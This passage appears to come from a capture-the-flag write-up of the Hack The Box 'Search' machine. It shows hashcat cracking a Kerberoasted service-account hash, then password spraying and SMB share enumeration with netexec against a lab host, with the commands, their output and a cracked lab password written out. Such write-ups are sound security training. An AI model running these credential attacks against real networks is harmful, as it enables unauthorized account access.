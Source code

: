 This is an RC4 (type 23) encryption type that begins with <mark>$krb5tgs$23$*</mark>, so it is easy to crack. We successfully recover clear text password for the <mark>web_svc</mark> account.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search/hashes]
└─$ hashcat -a 0 -m 13100 web_svc_kerberos_hash.txt /usr/share/wordlists/rockyou.txt    
hashcat (v6.2.6) starting

<SNIP>

$krb5tgs$23$*web_svc$SEARCH.HTB$web_svc*$9bf5f066aed9a17f2e959f027b006fe4$f4350b1<SNIP>:@3ONEmillionbaby
{% endhighlight %}
However, enumeration shows us that this account doesn't have anything new for us.

As it is a temporary account, we can password spray with the <mark>@3ONEmillionbaby</mark> password.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ netexec smb 10.10.11.129 -u usernames_list_final.txt -p '@3ONEmillionbaby' --continue-on-success | grep '[+]'
SMB                      10.10.11.129    445    RESEARCH         [+] search.htb\edgar.jacobs:@3ONEmillionbaby
{% endhighlight %}
We get a hit on <mark>edgar.jacobs</mark>.

#### edgar.jacobs
We enumerate the SMB shares once again and find access to the <mark>helpdesk</mark> share.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ netexec smb 10.10.11.129 -u edgar.jacobs -p '@3ONEmillionbaby' -M spider_plus                               
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\edgar.jacobs:@3ONEmillionbaby 
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.11.129    445    RESEARCH         [*] Enumerated shares
SMB         10.10.11.129    445    RESEARCH         Share           Permissions     Remark
SMB         10.10.11.129    445    RESEARCH         -----           -----------     ------
SMB         10.10.11.129    445    RESEARCH         ADMIN$                          Remote Admin
SMB         10.10.11.129    445    RESEARCH         C$                              Default share
SMB         10.10.11.129    445    RESEARCH         CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.11.129    445    RESEARCH         helpdesk        READ            
SMB         10.10.11.129    445    RESEARCH         IPC$            READ            Remote IPC
SMB         10.10.11.129    445    RESEARCH         NETLOGON        READ            Logon server share 
SMB         10.10.11.129    445    RESEARCH         RedirectedFolders$ READ,WRITE      
SMB         10.10.11.129    445    RESEARCH         SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129.json".
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Shares:           8 (ADMIN$, C$, CertEnroll, helpdesk, IPC$, NETLOGON, RedirectedFolders$, SYSVOL)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Readable Shares:  6 (CertEnroll, helpdesk, IPC$, NETLOGON, RedirectedFolders$, SYSVOL)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Writable Shares:  1 (RedirectedFolders$)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Filtered Shares:  1